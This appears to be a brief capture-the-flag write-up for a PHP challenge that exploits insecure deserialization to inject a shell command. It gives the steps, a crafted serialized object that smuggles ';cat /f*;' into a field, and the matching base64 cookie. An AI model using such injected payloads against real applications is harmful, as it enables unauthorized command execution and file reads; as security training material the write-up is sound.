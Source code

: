 * Category
  * Unsecure Deserialization
  * PHP
  * Command Injection
* Solution
  1. Construct self-defined serialized object
  2. Insert payload to ```$this->name```
  3. Use ```'``` to jump out of first command and use ```;``` to concatenate multiple commands
     * Remember to append ```'``` at the end to close the ending ```'``` 
* Payload
  1. PAYLOAD = ```O:3:"Cat":1:{s:4:"name";s:11:"';cat /f*;'";}7.```
  2. cookie = ```TzozOiJDYXQiOjE6e3M6NDoibmFtZSI7czoxMToiJztjYXQgL2YqOyciO303Lg==```
* ```FLAG{d3serializable_c4t}```